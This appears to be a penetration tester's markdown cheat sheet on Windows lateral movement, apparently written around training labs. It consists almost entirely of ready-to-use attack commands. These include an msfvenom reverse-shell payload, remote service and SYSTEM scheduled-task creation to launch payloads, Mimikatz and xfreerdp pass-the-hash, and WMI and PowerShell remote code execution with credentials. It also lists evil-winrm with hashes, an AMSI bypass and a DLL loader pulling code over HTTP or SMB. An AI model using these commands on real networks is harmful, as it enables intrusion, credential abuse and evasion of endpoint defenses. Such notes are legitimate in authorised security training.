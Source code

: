# Lateral Movement

## Remote administration

### Scheduler

Note that executables created by msfvenom to be used by a service have to be created with type exe-service instead of exe to prevent the shell from dying after the task is completed.

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ip> LPORT=<port> -o <filename>.exe
```

With sc.exe

```
sc.exe \\<host> create THMservice binPath="<cmd>" start= auto
sc.exe \\<host> start THMservice
```

With schtasks

```
schtasks /s <host> /RU "SYSTEM" /create /tn "<task name>" /tr "<cmd or payload>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s <host> /run /TN "<task name>" 
```

### RunAs

Run with stored credentials

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<domain>\<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<domain>\<user> "cmd.exe /k <cmd>"   //run command as user
```

Run by specifying username and password

```
runas /env /noprofile /user:<domain>/<user> <password> "<cmd>"
runas /netonly /user:<domain>\<user> "<cmd>"
```

### WMI

Execute code

```
wmic.exe /user:<user> /password:<pass> /node:<host> process call create "cmd.exe /c <cmd>" 
```

Run local msi installer

```
wmic.exe /user:<user> /password:<pass> /node:<host>  product call install PackageLocation="<path to msi>"
```

### RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## Powershell + WMI module

### Connect to WMI

Store credentials

```
$username = '<user>';
$password = '<pass>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Start session. WMI supports two protocols: DCOM (port 135 and 49152-65535) or Wsman (ports 5985 and 5986)

```
$Opt = New-CimSessionOption -Protocol <DCOM|Wsman>
$Session = New-Cimsession -ComputerName <host> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Execute command

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = "<cmd>"
}
```

### Create service

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<name>";
DisplayName = "<name>";
PathName = "<payload>";
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```

Retrieve and start the service

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<name>'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

### Create scheduled task

```
$Command = "<executable i.e. cmd, powershell...>"
$Args = "<args>"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<name>"
Start-ScheduledTask -CimSession $Session -TaskName "<name>"
```

### Install MSI package

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<path to msi>"; Options = ""; AllUsers = $false}
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
